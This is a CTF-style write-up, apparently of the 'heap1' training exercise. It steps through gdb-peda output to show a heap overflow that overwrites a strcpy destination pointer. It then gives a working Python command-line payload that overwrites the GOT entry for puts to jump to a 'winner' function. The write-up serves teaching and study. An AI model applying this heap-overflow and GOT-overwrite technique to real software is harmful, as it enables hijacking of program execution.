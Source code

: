 

```
asm
    8048565:   e8 06 fe ff ff          call   8048370 <strcpy@plt>
    804856a:   83 c4 10                add    esp,0x10
    804856d:   8b 43 04                mov    eax,DWORD PTR [ebx+0x4]
    8048570:   83 c0 08                add    eax,0x8
    8048573:   8b 10                   mov    edx,DWORD PTR [eax]
    8048575:   8b 45 f0                mov    eax,DWORD PTR [ebp-0x10]
    8048578:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
    804857b:   83 ec 08                sub    esp,0x8
    804857e:   52                      push   edx
    804857f:   50                      push   eax
    8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
```

in gdb:
```
sh
    gdb-peda$ b *0x8048565
    Breakpoint 1 at 0x8048565
    gdb-peda$ b *0x8048580
    Breakpoint 2 at 0x8048580
    gdb-peda$ r aaaaa bbbbb
```

now let's take a look see



```
asm
       0x8048560 <main+126>:	sub    esp,0x8
       0x8048563 <main+129>:	push   edx
       0x8048564 <main+130>:	push   eax
    => 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
       0x804856a <main+136>:	add    esp,0x10
       0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
       0x8048570 <main+142>:	add    eax,0x8
       0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
    Guessed arguments:
    arg[0]: 0x804a018 --> 0x0
    arg[1]: 0xffffdcee ("aaaa")
```
so now we can continue
```
sh
    gdb-peda$ c
```
and have another look see
```
asm
       0x804857b <main+153>:	sub    esp,0x8
       0x804857e <main+156>:	push   edx
       0x804857f <main+157>:	push   eax
    => 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
       0x8048585 <main+163>:	add    esp,0x10
       0x8048588 <main+166>:	sub    esp,0xc
       0x804858b <main+169>:	push   0x804864b
       0x8048590 <main+174>:	call   0x8048390 <puts@plt>
    Guessed arguments:
    arg[0]: 0x804a038 --> 0x0
    arg[1]: 0xffffdcf3 ("bbbb")
```

now let's see if we can break it!

```
sh
gdb-peda$ r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbb
```


```
asm
   0x8048560 <main+126>:	sub    esp,0x8
   0x8048563 <main+129>:	push   edx
   0x8048564 <main+130>:	push   eax
=> 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
   0x804856a <main+136>:	add    esp,0x10
   0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
   0x8048570 <main+142>:	add    eax,0x8
   0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
Guessed arguments:
arg[0]: 0x804a018 --> 0x0
arg[1]: 0xffffdcb6 ('a' <repeats 57 times>)
```
nothing interesting yet...

and so we continue

```
sh
    gdb-peda$ c
```
and take a look see
```
asm
   0x804857b <main+153>:	sub    esp,0x8
   0x804857e <main+156>:	push   edx
   0x804857f <main+157>:	push   eax
=> 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
   0x8048585 <main+163>:	add    esp,0x10
   0x8048588 <main+166>:	sub    esp,0xc
   0x804858b <main+169>:	push   0x804864b
   0x8048590 <main+174>:	call   0x8048390 <puts@plt>
Guessed arguments:
arg[0]: 0x61616161 ('aaaa')
arg[1]: 0xffffdcf0 ("bbbbbbbbb")
```

Ureka!! We are overwriting the destination address being passed to the `strcpy` function. So we have the ability to perform a .got overwrite. Our plan is to first overwrite the destination address passed to `strcpy` with the `.got` address of `printf` and then use `strcpy` to overwrite that address with the address of the `winner` function.


Let's take another look at the assembly

```
asm
8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
 8048585:   83 c4 10                add    esp,0x10
 8048588:   83 ec 0c                sub    esp,0xc
 804858b:   68 4b 86 04 08          push   0x804864b
 8048590:   e8 fb fd ff ff          call   8048390 <puts@plt>
```

Even though `printf` is called in the C code, `puts` is being called in the assembly. So lets take a closer look at the .plt definition of `puts`.


```
asm
 08048390 <puts@plt>:
8048390:   ff 25 a0 98 04 08       jmp    DWORD PTR ds:0x80498a0
8048396:   68 20 00 00 00          push   0x20
804839b:   e9 a0 ff ff ff          jmp    8048340 <_init+0x2c>
```

so `0x80498a0` is the .got address of puts. So all we need to do is overwrite that address with the address of `winner`

```
asm
080484bb <winner>:
80484bb:   55                      push   ebp
80484bc:   89 e5                   mov    ebp,esp
....
```


```
sh
[kablaa@superhacker9000 heap1]$ ./heap1 $(python2.7 -c 'print "a"*20 + "\xa0\x98\x04\x08" + " " + "\xbb\x84\x04\x08"')
and we have a winner @ 1453579246
[kablaa@superhacker9000 heap1]$

```
